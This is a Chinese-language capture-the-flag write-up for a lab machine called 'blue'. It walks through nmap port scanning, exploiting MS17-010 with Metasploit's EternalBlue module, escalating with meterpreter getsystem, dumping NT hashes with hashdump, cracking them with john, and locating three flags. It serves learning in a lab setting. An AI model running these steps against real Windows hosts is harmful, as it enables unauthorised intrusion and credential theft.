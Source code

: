 ```yaml
---
icon: pen-to-square
date: 2025-04-22
tags: 
title: blue
category:
  - 项目
---
```

## 解答过程
### nmap扫描
```bash
namp -sn <ip>
```
发现主机

```bash
sudo nmap --min-rate 10000 -p- <ip> -oA nmapscan/ports
```
扫描端口
```bash
└─# cat ports.nmap
# Nmap 7.94SVN scan initiated Tue Apr 22 20:27:34 2025 as: nmap --min-rate 10000 -p- -oA 10.10.111.35/ports 10.10.111.35
Nmap scan report for 10.10.111.35
Host is up (7.9s latency).
Not shown: 58579 filtered tcp ports (no-response), 6952 closed tcp ports (reset)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

# Nmap done at Tue Apr 22 20:28:17 2025 -- 1 IP address (1 host up) scanned in 43.28 seconds
```
发现可能存在高危漏洞`ms17-010`
search一下ms17-010发现
`exploit/windows/smb/ms17_010_eternalblue`模块
设置好options后进行下一步操作
获得反弹bash
multi/manage/shell_to_meterpreter
使用meterpreter进行提升权限
运行getsystem即获得最高权限
然后输入
```bash
hashdump
```
可以获得NT哈希，用john进行破解

```bash
john --format=NT hash.txt --wordlist=/path/to/wordlist.txt
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

## 寻找flag
首先提示了再系统根目录会发现flag，我们转到系统根目录
```bash
cat C:\\flag1.txt
```
获得flag1.txt
flag2提示可以在windows存储密码的位置发现
windows存储密码的位置为
```bash
%SystemRoot%\\System32\\config\\SAM
```

第三个flag位置确实没看懂，直接梭哈吧
用`search`命令在C盘根目录进行搜索
```bash
meterpreter > search -d C:\\ -f flag3.txt -r
Found 1 result...
=================

Path                              Size (bytes)  Modified (UTC)
----                              ------------  --------------
C:\Users\Jon\Documents\flag3.txt  37            2019-03-18 03:26:36 +0800
```
发现flag